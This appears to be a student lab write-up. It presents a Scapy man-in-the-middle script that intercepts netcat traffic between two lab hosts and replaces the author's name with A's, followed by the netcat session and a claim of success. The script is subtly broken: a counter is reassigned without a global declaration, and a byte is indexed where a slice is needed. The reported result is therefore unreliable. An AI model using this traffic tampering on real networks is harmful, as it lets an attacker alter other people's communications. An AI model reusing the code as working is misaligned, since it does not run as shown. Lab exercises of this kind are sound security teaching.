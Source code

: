 ## MITM Attack Against Netcat
This task is to replace every occurrence of my first name in a netcat connection between hosts A and B the with a sequence of A’s. We can use a slightly modified version of task 3's MITM scapy script:
```python3
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
seq_offset = 0

def spoof_pkt(pkt):
    if IP in pkt and TCP in pkt:
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            # Create a new packet based on the captured one.
            L3 = IP(src=pkt[IP].src, dst=pkt[IP].dst)
            L4 = TCP(sport=pkt[TCP].sport, dport=pkt[TCP].dport, flags=pkt[TCP].flags, seq=pkt[TCP].seq + seq_offset, ack=pkt[TCP].ack)
            # Construct the new payload based on the old payload.
            if pkt[TCP].payload:
                data = pkt[TCP].payload.load # The original payload data
                if b"daniel" in data.lower().split():
                    idx = data.lower().find(b"daniel")
                    newdata = data[:idx] + b"AAAAAA" + data[idx + len(b"daniel")]
                    print(f"replaced {data} with {newdata}")
                    seq_offset += len(newdata) - len(data)
                    data = newdata
                newpkt = L3/L4/data
                del(newpkt.chksum)
                del(newpkt[TCP].chksum)
                send(newpkt)
            else:
                send(pkt[IP])

#we only want to spoof packets between hosts A and B, so isolate their respective addresses
f = f'tcp and (ether src {MAC_A} or ether src {MAC_B})'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

Let's start up the netcat server on host B and connect from host A. Then we run our script on host M and see what happens to our message
```shell
root@9cd27edc87ad:/# nc -lp 9090

root@ef3a05ea874d:/# nc 10.9.0.6 9090
mmy name is daniel hello
```
![image](https://github.com/user-attachments/assets/40b1c21f-97fc-4da8-8e63-9b5bebca23f7)

Would you look at that! It replaced my name with A's!
